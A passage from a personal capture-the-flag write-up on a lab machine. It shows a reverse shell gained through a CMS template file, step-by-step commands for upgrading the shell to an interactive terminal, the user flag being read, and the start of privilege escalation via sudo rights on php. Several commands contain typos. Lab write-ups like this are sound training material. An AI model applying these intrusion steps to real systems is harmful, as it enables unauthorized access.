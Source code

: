 *then select template.php*
![[Pasted image 20250604132148.png]]

BOOM! Reverse shell achieved. I don't know what syntax I was messing up with my earlier attempts, but I got it now
![[Pasted image 20250604132236.png]]

## Upgrading shell to fully functional

***This took me at least 2 hours***

There are a ton of issues that differ from the normal way to upgrade your terminal with python when using **zsh**

The **zsh** syntax and behavior caused issues with standard terminal upgrades, requiring specific steps to stabilize the **bash** reverse shell obtained on the target.

1. Get dummy shell
2. type `python3 -c 'import pty;pty.spawn("/bin/bash")'`
3. Ctrl + Z
4. type `stty size* - x / y`
5. type `stty raw -echo; fg` (same line)
6. hit enter x2
7. type `export TERM=xterm*-256color`
8. type `export SHELL=/bin/bash`
9. type `stty rows x columns y`
10. type `export PS1='\[\e[32m\]\u@\h:\[\e[34m\]\w\[\e[0m\]\$ '`
11. you should be good to use arrow keys now and other terminal things

### Getting User Flag
```
www-data@gettingstarted:/var/www/html/theme/Innovation$ cd /home
www-data@gettingstarted:/home$ ls
mrb3n
www-data@gettingstarted:/home$ cd mrb3n/
www-data@gettingstarted:/home/mrb3n$ ls
user.txt
www-data@gettingstarted:/home/mrb3n$ cat user.txt
7002d65b149b0a4d19132a66feed21d8
www-data@gettingstarted:/home/mrb3n$ 
```

# PrivEsc

I started by checking my sudo permissions
```
www-data@gettingstarted:/home/mrb3n$ sudo  -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
```
